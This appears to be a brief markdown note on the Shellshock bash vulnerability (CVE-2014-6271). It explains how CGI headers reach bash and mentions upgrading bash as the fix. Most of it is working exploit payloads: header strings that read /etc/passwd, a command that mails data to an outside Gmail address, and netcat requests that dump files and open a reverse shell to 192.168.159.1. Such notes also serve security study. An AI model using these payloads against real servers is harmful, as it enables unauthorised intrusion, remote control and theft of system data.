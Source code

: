 # CVE-2014-6271

* When you have a CGI script on a web server, this script automatically  reads certain environment variables, for example your IP address, your  browser version, and information about the local system.
* This would mean that – without having any credentials to the webserver – as soon as you access the CGI script it would read your environment  variables; and if these environment variables contain the exploit  string, the script would also execute the command that you have  specified.

https://blog.cloudflare.com/inside-shellshock/

* Suppose the attacker change the User-Agent header above from `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.124 Safari/537.36` to simply `() { :; }; /bin/eject`. This creates the following variable inside a web server:

  ```bash
  USER-AGENT=() { :; }; /bin/eject
  ```

* The solution is to upgrade bash to a version that doesn't interpret `() { :; };` in a special way.



### To read files

* To extract private information, attackers are using a couple of techniques. The simplest extraction attacks are in the form:

  ```bash
  () {:;}; /bin/cat /etc/passwd
  ```

  or

  ```bash
  () {:;}; echo $(</etc/passwd)
  ```

  

* In one attack they simply email private files to themselves.  To get data out via email, attackers are using the `mail` command like this:

  ```bash
  () { :;}; /bin/bash -c \"whoami | mail -s 'example.com l' xxxxxxxxxxxxxxxx@gmail.com
  ```



### Exploitation

* ```bash
  echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
  ```



### Reverse shell

* ```bash
  echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
  ```